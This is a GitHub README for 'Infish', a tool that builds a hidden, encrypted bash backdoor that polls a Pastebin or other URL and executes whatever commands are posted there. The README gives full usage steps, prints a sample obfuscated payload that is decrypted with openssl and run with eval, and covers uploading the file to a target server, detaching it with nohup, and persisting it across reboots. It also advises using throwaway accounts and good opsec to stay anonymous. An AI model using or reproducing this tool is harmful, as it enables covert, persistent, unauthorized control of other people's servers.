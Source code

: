 # Infish

Infish stands for infinite shell. It's a way to maintain persistent shell access (command and control) on a linux server even without ftp, ssh, or cpanel access. It works on all linux servers, even on shared hosting.

Note that this project is for **educational purposes** only. I bear no responsibility for how you use it. For this reason, no specific tutorial will be given for how exactly when or where to use this tool.

The aim of this shell is the give the penetration tester maximum and complete control over the system such that **even reboot** can not save the day. Infact if one has root access, one can set the script to run on boot, that way, the target is **screwed**.

# How it works
Here, you will have a shell that keeps checking on a paste on a predefined url or pastebin (use a throw away account and make the paste unlisted), and running whatever command it finds there. That way, you don't need access to the target machine. You've created a poor man's reverse shell, while remaining anonymous in the process.

Anytime you need to run a command, simply edit the paste to the command you want.

# Usage


As usual, to see usage,

```bash
$ ./infish -h
```
or
```bash
$ ./infish --help
```

There are two ways to build the final product.

- Using a raw pastebin url (or a url from a website you control. Observe opsec though.)
- Using your pastebin dev api key, username, and password

However, you first need to clone this repository or copy the infis-builder file to your local machine. Make it executable by running  

```bash
$ chmod +x infish
```

## Using a raw url

This is when you already have a webpage (observe opsec) or have already created a paste by hand. Get the **raw paste url** or the url or the page and run the following command

```bash
$ ./infish --url 'https://example.com/cmd' --sleep 900 --user-agent 'Mozilla 5.0'
```
**or**

```bash
$ ./infish --key 'ABCDEFGHIJKLMNOPQRSTUVWXYZ1234567890' --sleep 900 --user-agent 'Mozilla 5.0'
```

This will generate a file called **.infish** with contents that look like  

```bash
#!/usr/bin/env bash
decrypted=$(printf "%s" "2zvhB+0qO2zqAoEinkUcDPSr6M9XnvlFyQ+9dusb6R9BthEkH1k7eHwJpl+qJSda
Q7S2w1ijyWn6rJeDlyhsC9pjwFgopvKe5A0KWD7PGoycRjQdPwGqFkAtS/AQrRDz
zBJuD6WOtr/Is5k1Fkk8ytnFazILqQlJalJRWv80lfW82WKJLfIKdtLw0ukbkyZ7
NYYIjy7ixdH6GmHpQAtglwqU/IyakMgFKI3K4y4lyqbgYdPjvKg/z6W3OCTtfmP8
AiDmuy7iuvBsmXlg9+pvgUeutDi1e2H9CKTVKviFFB57EeEdBSaOx2ha/fuXjCmU
U6WXKe8X3MS3ZpUBgc13mxgSCkMmSt0djyADDaS78EgccggdZyHJaMVIbb4cem1S
Ab/6gTfJiRnlS8RPT7MrBGz1xXs6pxYFqrOJnDURY4i34iUEtqQwuBDndkztLRfK
XtdEbTf27uXj900xOcLmBfGcJDLCnEqzdI1oWCVZq6NNE+NxrLEOqVB668/HMeBG
Ubqv/Klau2aBPr75Q4r13g1GAkkTE32eveecXe8vEFYlwz6wok2R43idQIOBJ2/c
/4Mq1LrLoBylbsZcIPOTThHIMHpr91Rk32mpa8rFSR+YVMhGGPSZr6Jq7n9CmhtW
8j3MWGdTIfH0iWVgmUJ7TcKJwWr4LA8h9oSNJyavqDTlgCzKdv9uLUWwyG6LmFkX
J6uGY9kX+lYnsrwLWHwz+lwiN3qTCc1o7Uw68sEeZbg=" | openssl enc -aes-256-cbc -K "950749b504f82fdd3899e5de21681724b596c2587c2457bf683f686e65a9f45c" -iv "853e8f9b15046491fe4a3067fa60bc8b" -d -a);
eval "$decrypted";
```

**You can specify the output filename or path using the `-o` or `--output` option**.

## Using your pastebin details

This is the recommended method, as everything is automated. For this, obtain the following

- Your pastebin dev api key
- Your pastebin username (To our throwaway account)
- Your pastebin password

Then run the following

```bash
$ ./infish key xxxxxxxxxxxxxxxxxxxxxxx
Pastebin username:
john
Pastebin password:
doe
New paste name:
shell

Successfully built infinite shell

$
```

A file called '.infish' is created. 

Again, the file will contain something like  

```bash
#!/usr/bin/env bash
decrypted=$(printf "%s" "2zvhB+0qO2zqAoEinkUcDPSr6M9XnvlFyQ+9dusb6R9BthEkH1k7eHwJpl+qJSda
Q7S2w1ijyWn6rJeDlyhsC9pjwFgopvKe5A0KWD7PGoycRjQdPwGqFkAtS/AQrRDz
zBJuD6WOtr/Is5k1Fkk8ytnFazILqQlJalJRWv80lfW82WKJLfIKdtLw0ukbkyZ7
NYYIjy7ixdH6GmHpQAtglwqU/IyakMgFKI3K4y4lyqbgYdPjvKg/z6W3OCTtfmP8
AiDmuy7iuvBsmXlg9+pvgUeutDi1e2H9CKTVKviFFB57EeEdBSaOx2ha/fuXjCmU
U6WXKe8X3MS3ZpUBgc13mxgSCkMmSt0djyADDaS78EgccggdZyHJaMVIbb4cem1S
Ab/6gTfJiRnlS8RPT7MrBGz1xXs6pxYFqrOJnDURY4i34iUEtqQwuBDndkztLRfK
XtdEbTf27uXj900xOcLmBfGcJDLCnEqzdI1oWCVZq6NNE+NxrLEOqVB668/HMeBG
Ubqv/Klau2aBPr75Q4r13g1GAkkTE32eveecXe8vEFYlwz6wok2R43idQIOBJ2/c
/4Mq1LrLoBylbsZcIPOTThHIMHpr91Rk32mpa8rFSR+YVMhGGPSZr6Jq7n9CmhtW
8j3MWGdTIfH0iWVgmUJ7TcKJwWr4LA8h9oSNJyavqDTlgCzKdv9uLUWwyG6LmFkX
J6uGY9kX+lYnsrwLWHwz+lwiN3qTCc1o7Uw68sEeZbg=" | openssl enc -aes-256-cbc -K "950749b504f82fdd3899e5de21681724b596c2587c2457bf683f686e65a9f45c" -iv "853e8f9b15046491fe4a3067fa60bc8b" -d -a);
eval "$decrypted";
```
**You can specify the output filename or path using the `-o` or `--output` option**.

Finally, upload the **.infish** file to the target server and then, make it executable by running   

```bash
$ chmod +x .infish
```

Then to begin c&c, run  

```bash
$ nohup ./.infish & disown
```

Now, you can edit your paste to any shell command and the server will run it.

That's it, you own the server. If you have root access, you can set the last command above to run on boot or attach it to a legitimate file that runs on boot. Figure that part out.
